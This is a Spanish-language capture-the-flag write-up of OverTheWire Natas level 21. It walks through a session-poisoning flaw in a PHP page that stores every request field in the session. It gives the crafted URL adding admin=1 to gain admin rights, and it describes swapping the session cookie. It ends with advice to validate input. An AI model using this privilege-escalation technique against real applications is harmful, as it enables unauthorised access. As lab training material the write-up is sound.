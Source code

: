 En este nivel, contamos con dos páginas. La página principal nos informa que estamos registrados como un usuario regular y nos indica que debemos registrarnos como administradores para obtener la contraseña del siguiente nivel. El código de esta página verifica si nuestra sesión contiene el valor `admin = 1` y, de ser así, muestra la contraseña del nivel siguiente.
```php
<?php

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>
```

La página _CSS Experimenter_ nos presenta un formulario que permite modificar los valores de estilo de una sección. Al revisar su código, observamos que estos valores se almacenan en la sesión, lo que permite que se conserven nuestros cambios incluso después de recargar la página.

```php
<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}
```

Si agregamos el campo `debug` en nuestra [solicitud](http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=true) podemos ver el contenido de la sesión:
```
[DEBUG] Session contents:  
Array ( [align] => bottom [fontsize] => 200% [bgcolor] => blue [submit] => Update )
```

Al recibir el valor `submit`, el código almacena todos los valores enviados a través de la solicitud, por lo que podemos agregar el campo `admin = 1` para que se guarde dentro de la sesión. 
```
https://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=true&admin=1&submit
```

Ahora en la pestaña `Aplicación > Cookies`, podemos copiar el ID de la sesión y llevarlo a la pagina principal. Una vez reemplacemos la *cookie* y recarguemos la página, podremos ver la contraseña del próximo nivel.

---
## **Conclusión**
 
La función encargada de almacenar valores en la sesión es vulnerable debido a la falta de validación de los campos recibidos en la solicitud. Para evitar este tipo de ataques, es necesario validar y filtrar los datos antes de almacenarlos, además  de evitar las dependencias entre páginas.

---
-,"  
[_P

